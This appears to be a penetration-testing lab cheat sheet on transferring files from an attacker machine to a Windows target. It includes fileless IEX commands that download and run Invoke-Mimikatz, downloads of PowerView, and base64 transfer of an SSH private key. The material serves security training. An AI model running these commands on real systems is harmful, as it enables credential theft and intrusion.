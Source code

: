 # Attack to Target
## PowerShell Base64 Encode & Decode
### Pwnbox Check SSH Key MD5 Hash
- `COR33@htb[/htb]$ md5sum id_rsa`

### Pwnbox Encode SSH Key to Base64
- `cat id_rsa |base64 -w 0;echo`

-`[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String(""))`

### Confirming the MD5 Hashes Match
- `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`

## PowerShell Web Downloads
Method 	Description
OpenRead 	Returns the data from a resource as a Stream.
OpenReadAsync 	Returns the data from a resource without blocking the calling thread.
DownloadData 	Downloads data from a resource and returns a Byte array.
DownloadDataAsync 	Downloads data from a resource and returns a Byte array without blocking the calling thread.
DownloadFile 	Downloads data from a resource to a local file.
DownloadFileAsync 	Downloads data from a resource to a local file without blocking the calling thread.
DownloadString 	Downloads a String from a resource and returns a String.
DownloadStringAsync 	Downloads a String from a resource without blocking the calling thread.

### File Download
- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`

- `(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')`

### PowerShell DownloadString - Fileless Method
- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`

- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`

### PowerShell Invoke-WebRequest
iwr, curl, and wget instead of the Invoke-WebRequest full name.
- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`

### Common Errors with PowerShell
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download..
This can be bypassed using the parameter -UseBasicParsing.
